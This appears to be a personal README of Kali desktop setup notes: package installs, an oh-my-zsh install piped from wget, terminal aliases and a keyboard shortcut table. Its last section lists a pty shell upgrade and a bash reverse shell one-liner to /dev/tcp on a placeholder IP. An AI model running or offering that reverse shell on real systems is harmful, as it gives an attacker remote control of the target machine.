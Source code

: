 ## ZyDesk
Setup for my Desktop, some configurations for my Desktop themes and shortcuts.  

### My Current Desktop

### With Default Panel
<p align="center">
  <img src="wallpaper/my-panel.png">
</p>

### With Latte Dock
<p align="center">
  <img src="wallpaper/my-latte.png">
</p>

### Must HAVE Apps!!!
```
sudo apt install git wget curl python3-pip
sudo apt install neofetch tree htop fonts-noto-color-emoji telegram-desktop
sudo apt install polybar rofi ranger
sudo apt install zsh tmux fonts-powerline tilix python3-nautilus
sudo ln -s /etc/profile.d/vte-2.91.sh /etc/profile.d/vte.sh
sudo update-alternatives --config x-terminal-emulator
```
- https://github.com/zyairelai/kali-anonsurf
- https://marktext.app/
```
chmod a+x {marktext.AppImage}
mv $HOME/Downloads/{marktext.AppImage} /usr/bin/marktext
```

## Zsh Setup
```
sh -c "$(wget -O- https://raw.githubusercontent.com/ohmyzsh/ohmyzsh/master/tools/install.sh)"
git clone https://github.com/bhilburn/powerlevel9k.git ~/.oh-my-zsh/custom/themes/powerlevel9k
nano ~/.oh-my-zsh/lib/directories.zsh
alias ll='ls -lh --group-directories-first'
chsh -s $(which zsh)
tmux source-file .tmux.conf
```
- [Hack Nerd Fonts](https://github.com/ryanoasis/nerd-fonts/blob/master/patched-fonts/Hack/Regular/complete/Hack%20Regular%20Nerd%20Font%20Complete.ttf)

### Personal Terminal Shortcuts
```
sudo ln -s /bin/xdg-open /bin/open
sudo ln -s /bin/python3 /bin/py
sudo ln -s /bin/python3 /bin/python
sudo ln -s /bin/clear /bin/c
sudo ln -s /bin/ranger /bin/r
```

### Keyboard Shortcuts
| Shortcuts              | Description                                        |
|------------------------|----------------------------------------------------|
| Ctrl + Alt + F         | Home folder                                        |
| Ctrl + Alt + G         |  Launch Web Browser                                |
| Ctrl + Alt + D         | Hide all normal windows                            |
| Ctrl + Alt + S         | Settings                                           |
| Ctrl + Alt + Arrows    | Move to workspace (direction)                      |
| Super + Arrows         | Move window one workspace (direction)              |
| Alt + Super + Arrows   | Tiling Windows to (direction)                      |
| Alt + W                | Close window                                       |
| Ctrl + Alt + P         | bash /home/kali/.config/polybar/launch.sh --shapes |
| Ctrl + Alt + M         |  Marktext                                          |

### Shell EVERYWHERE!
1. Reversed Shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2. Stable Shell
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
